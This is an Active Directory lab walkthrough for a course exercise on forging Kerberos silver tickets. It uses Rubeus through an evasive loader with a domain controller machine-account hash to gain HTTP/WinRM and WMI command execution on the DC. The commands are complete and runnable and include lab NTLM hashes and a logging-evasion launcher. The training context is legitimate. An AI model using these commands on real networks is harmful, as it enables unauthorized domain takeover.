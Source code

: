 ```yaml
---
icon: vial
---
```


# 9 - Learning Object9️

## Tasks



1 - Try to get command execution on the domain controller by creating silver ticket for:

* HTTP
* WMI

Flag 18 \[dcorp-dc] - The service whose Silver Ticket can be used for winrs or PowerShell Remoting 🚩



## Solutions

### 1 - Try to get command execution on the domain controller by creating silver ticket for:

Based on the last task we already have the hash for the machine account of the domain controller (dcorp-dc$).&#x20;

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

```powershell
RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : e4ce16e20da2e11d2901e0fb8a4f28b0
```

#### HTTP

We can create a Silver Ticket that provides us access to the HTTP service (WinRM) on DC:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:e4ce16e20da2e11d2901e0fb8a4f28b0 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

We can check if we got the correct service ticket:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args klist
```

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

And run `klist` or  `C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args klist` we can see it

`http/dcorp-dc.dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL`

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

let's try accessing it using winrs. Note that we are using FQDN of dcorp-dc as that is what the service ticket has:

```powershell
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
set username
set computername
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

#### WMI

For accessing WMI, we need to create two tickets: one for HOST service and another for RPCSS.

We can start to run the following commands from an elevated shell:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:host/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:rpcss/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

Verify that tickets generated are present:

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

let's try to use WMI commands on the domain controller:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

### Flag 18 \[dcorp-dc] - The service whose Silver Ticket can be used for winrs or PowerShell Remoting 🚩

As we can see in the previous task the **HTTP** service can be used for winrs or PowerShell Remoting.
